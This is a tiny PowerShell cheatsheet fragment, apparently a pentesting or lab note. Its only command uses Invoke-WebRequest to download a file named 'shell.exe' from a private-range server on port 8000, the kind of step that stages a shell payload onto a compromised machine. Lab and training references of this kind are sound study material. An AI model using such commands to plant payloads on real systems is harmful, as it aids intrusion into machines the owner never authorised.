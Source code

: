 #Powershell Cheatsheet

<strong>#Download file from a server:</strong>
  ```
  Powershell -c "Invoke-WebRequest -Uri 'http://10.10.190.111:8000/shell.exe' -OutFile 'shell.exe'"
  ```

